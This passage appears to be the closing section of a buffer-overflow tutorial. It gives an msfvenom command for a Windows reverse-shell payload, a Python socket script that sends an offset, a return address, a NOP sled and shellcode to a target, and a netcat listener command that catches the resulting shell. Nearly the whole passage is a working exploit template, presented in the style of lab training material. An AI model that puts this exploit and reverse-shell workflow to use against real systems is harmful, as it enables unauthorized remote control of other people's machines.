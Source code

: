 Now that we have done all of that we now gotta generate shell code for  it, we can use msfvenom for it with command 
`msfvenom -p windows/shell_reverse_tcp LHOST=<Your ip> LPORT=<PORT> -a x86 -b <Bad characters> -f python`

note format the bad characters as "\\x00\\x52" etc.

After doing the msfvenom it should return a bunch stuff, and it should be in python because of -f python, just paste below the comment.

```python
import socket

# Shellcode:


ip, port = "10.10.10.10", 9999 # Change the ip and port
offset = 0  # change this with what you got from step 2
prefix = b"" # change this if necessary and make sure theres a space at the end.
module = b"\xaf\x11\x50\x62" # Change this
nop = 16

try:
	s = socket.socket()
	s.connect((ip, port))
	s.send(prefix + b"A"*offset + module + b"\x90"*nop + buf)
except:
	print(f"Something went wrong")

s.close()
```

Now open a terminal and make a netcat listener with the port you gave before when genereting the shellcode
`nc -lnvp <PORT>`

Now execute the code and boom reverse shell.

## Note
If it dosent work maybe try changing the payload from "windows/shell_reverse_tcp" to "windows/shell/reverse_tcp" 
That will make the payload staged